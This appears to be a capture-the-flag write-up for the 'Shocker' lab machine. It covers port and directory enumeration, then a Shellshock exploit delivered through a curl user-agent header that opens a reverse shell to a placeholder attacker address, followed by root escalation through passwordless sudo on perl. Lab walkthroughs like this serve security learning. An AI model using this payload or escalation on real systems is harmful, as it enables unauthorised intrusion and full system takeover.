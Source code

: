 Shocker
---
![](https://i.ibb.co/h7Zvr83/shocker.png)

**NMAP Results** (nmap -sV -vv [ip])
```
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Gobuster results** (common.txt, without extensions)
```
$ gobuster dir -w common.txt -u http://10.10.10.56/cgi-bin/

/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294] // interesting for us
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
 ```

**CGI** - interface specification that enables web servers to execute an external program, typically to process user requests. It uses **perl.**

**Gobuster results v2** (directory-list-2.3-medium.txt, extension - sh)

```
$ gobuster dir -w directory-list-2.3-medium.txt  -u http://10.10.10.56/cgi-bin/ -x sh


2022/02/24 19:43:42 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```
*note - i was bruteforcing for like 20 minutes, because i was doing it without extensions, or extensions like cgi,php,html,.... damn you, sh! (and my brain)* 


Well, this is pretty obvious,
\
**Shellshock**. 
\
https://www.youtube.com/watch?v=aCj-Khvg5n0 <- shellshock explained\
https://book.hacktricks.xyz/pentesting/pentesting-web/cgi \
https://www.exploit-db.com/docs/48112

I'm gonna do it via curl.\
`$curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/[ip]/[port] 0>&1'" http://10.10.10.56/cgi-bin/user.sh`
We've got our shell.

`$python3 -c 'import pty;pty.spawn("/bin/bash")' //for stabilization of shell`\
`$cat /home/shelly/user.txt` - USER FLAG.

Now, it's time for privesc. Absolutely first thing I do (and you should do it too), is to check my perms with `sudo -l`. Usually you will be welcomed by "type password haha loser", but in this case, nope.

```
$sudo -l

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
https://gtfobins.github.io/gtfobins/perl/ - find it ;) \
`cat root/root.txt` - ROOT FLAG.

thanks.
